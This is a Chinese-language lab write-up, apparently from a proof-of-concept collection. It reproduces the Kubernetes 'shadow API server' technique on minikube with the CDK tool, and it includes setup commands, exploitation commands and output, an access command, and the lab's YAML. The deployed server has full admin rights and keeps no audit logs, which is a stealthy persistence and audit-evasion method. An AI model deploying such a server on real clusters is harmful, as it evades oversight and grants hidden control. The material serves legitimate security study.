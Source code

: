 # Kubernetes 部署 Shadow API Server

## 漏洞描述

该技术来源于 ["RSAC 2020: Advanced Persistence Threats: The Future of Kubernetes Attacks"](https://www.youtube.com/watch?v=CH7S5rE3j8w)，思路是在拥有 Master 节点上的 create pod 权限时，可创建一个具有 API Server 功能的 Pod，使得后续命令可以通过新创建的 shadow api server 进行下发，绕过 K8s 的日志审计，更加具有隐蔽性。

参考链接：

- https://www.rsaconference.com/Library/presentation/USA/2020/advanced-persistence-threats-the-future-of-kubernetes-attacks-3
- https://www.youtube.com/watch?v=CH7S5rE3j8w
- https://www.cdxy.me/?p=839
- https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-shadow-apiserver
- https://github.com/cdk-team/CDK/blob/02c2e5d576a51b603e07eb036073eb1c5a0c4c4d/test/k8s_exploit_util/shadow-apiserver.yaml

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_shadow_apiserver.yaml
```

或直接通过 metarget 启动漏洞环境：

```shell
./metarget cnv install k8s_shadow_apiserver
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s-shadow-apiserver` 的 pod：

```
kubectl get pods -n metarget
-----
NAME                   READY   STATUS    RESTARTS   AGE
k8s-shadow-apiserver   1/1     Running   0          40m
```

![](images/Kubernetes%20部署%20Shadow%20API%20Server/image-20250422151649799.png)

## 漏洞复现

下载漏洞利用工具 [CDK](https://github.com/cdk-team/CDK)，将其传入 `k8s-shadow-apiserver`pod 中：

```
kubectl cp cdk k8s-shadow-apiserver:/ -n metarget
```

执行以下命令运行工具（该命令会在 `kube-system` 命名空间下创建一个 shadow apiserver，可根据提示进行访问）：

```
kubectl exec -n metarget -it k8s-shadow-apiserver -- chmod +x /cdk
kubectl exec -n metarget -it k8s-shadow-apiserver --  /cdk run k8s-shadow-apiserver default
-----
...
2025/04/22 07:18:04 shadow api-server deploy success!
	shadow api-server pod name:kube-apiserver-minikube-shadow-yg7vf3, namespace:kube-system, node name:minikube
	listening port: https://minikube:9444
	run: kubectl --server=https://minikube:9444 --token=eyJhb...UnXw --kubeconfig=/dev/null --insecure-skip-tls-verify=true get pods -A
```

![](images/Kubernetes%20部署%20Shadow%20API%20Server/image-20250422151905189.png)

验证部署结果：

```
kubectl get pods -n kube-system | grep shadow
-----
kube-apiserver-minikube-shadow-yg7vf3   1/1     Running   0              90s
```

![](images/Kubernetes%20部署%20Shadow%20API%20Server/image-20250422151956718.png)

通过获取的 K8s Token 访问 shadow apiserver，该 apiserver 具有和集群中现存的 apiserver 一致的功能，同时开启了全部 K8s 管理权限，且不保存审计日志：

```
kubectl --server=https://minikube:9444 --token=<YOUR_TOKEN_HERE> --kubeconfig=/dev/null --insecure-skip-tls-verify=true get pods -A
```

![](images/Kubernetes%20部署%20Shadow%20API%20Server/image-20250422155545177.png)

## 环境复原

```
kubectl delete pod kube-apiserver-minikube-shadow-6aktct -n kube-system
kubectl delete -f k8s_shadow_apiserver.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_shadow_apiserver.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_shadow_apiserver.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-shadow-apiserver
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-shadow-apiserver
rules:
- apiGroups:
  - ""
  resources:
  - pods
  verbs:
  - create
  - get
  - list
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-shadow-apiserver
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-shadow-apiserver
subjects:
- kind: ServiceAccount
  name: k8s-shadow-apiserver
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-shadow-apiserver
  namespace: metarget
spec:
  serviceAccountName: k8s-shadow-apiserver
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```
